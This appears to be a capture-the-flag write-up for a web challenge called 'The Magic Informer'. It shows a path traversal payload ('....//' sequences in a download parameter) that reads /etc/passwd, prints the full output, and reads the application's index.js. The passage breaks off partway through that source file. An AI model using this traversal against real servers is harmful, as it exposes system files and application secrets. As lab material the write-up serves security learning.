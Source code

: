 # The Magic Informer

http://167.99.94.114:31956/dashboard#

1. Create an account: http://167.99.94.114:31956/register
2. Login: http://167.99.94.114:31956/login

## Files download

Upload a CV and download it with URL: `http://167.99.94.114:31956/download?resume=de2d958f90bb82cda89c8e7fd371f3c0.docx`, get passwd with: `http://167.99.94.114:31956/download?resume=....//....//....//....//....//etc/passwd`

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
```

And the source code: `http://167.99.94.114:31956/download?resume=....//....//....//....//....//app//index.js`

```js
import * as dotenv from 'dotenv';
import cookieParser from "cookie-parser";
import path from "path";
import express from "express";
import nunjucks from "nunjucks";
import fileUpload from "express-fileupload";
import * as router from "./routes/index.js";
import { Database } from "./database.js";

dotenv.config({path: '/app/debug.env'});

const app = express();
const db = new Database('admin.db');

app.use(express.json());
app.use(cookieParser());
app.use(
```